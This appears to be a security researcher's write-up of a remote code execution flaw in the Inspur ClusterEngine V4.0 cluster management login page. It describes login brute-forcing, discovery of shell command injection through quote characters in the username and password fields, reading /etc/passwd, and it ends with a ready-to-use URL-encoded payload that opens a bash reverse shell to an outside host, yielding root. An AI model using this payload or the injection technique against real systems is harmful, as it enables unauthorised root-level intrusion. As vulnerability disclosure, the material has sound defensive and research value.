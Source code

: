 # Inspur ClusterEngineV4.0 Remote Code Execution

# 0x01 Description

Today, i found a `Inspur Server Cluster Management System` in our intranet, which login page looks like that.

![1573267238057](img/1573267238057.png)

It doesn't have verification code, so i decide to crack a login account.

![1573267410033](img/1573267410033.png)



when burpsuite crack finished, i noticed if post data has `;'`, the response packet is abnormal.

![1573267472820](img/1573267472820.png)

At now, I realize that there may be a remote code execution, and I put this packet in repeater to repeat it, I found if there is a `'` in post data, the system will throw an exception.

![1573267667895](img/1573267667895.png)

![1573267621779](img/1573267621779.png)

When I further tested, I found that either the username parameter or the password parameter contains `'`, an exception will be thrown.

![1573267874260](img/1573267874260.png)

So I decided to try send `' '`  to see the response packet.

![1573267904173](img/1573267904173.png)

I noticed `grep` command error,  may be server code like 
```shell
var1 = `grep xxxx`
var2 = $(python -c "from crypt import crypt;print crypt('$passwd','$1$$var1')")
```

So i try to send `-V` and `--help` to see response packet,  the response packet confirmed my guess.

![1573268170355](img/1573268170355.png)

![1573268245311](img/1573268245311.png)

Try to read `/etc/passwd`

![1573268332873](img/1573268332873.png)

Try to list the directories

![1573268361127](img/1573268361127.png)



# 0x02 Pwned

Now, I confirmed there is a remote code execution that i found, after fuzz, I got the following payload

`whoami`

![1573268530852](img/1573268530852.png)

`uname`

![1573268555327](img/1573268555327.png)

`revershell`

```
op=login&username=1 2\',\'1\'\);  `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

When i send payload, i get a `root shell` on my `kali linux`server

![1573268596272](img/1573268596272.png)

![1573267093372](img/1573267093372.png)
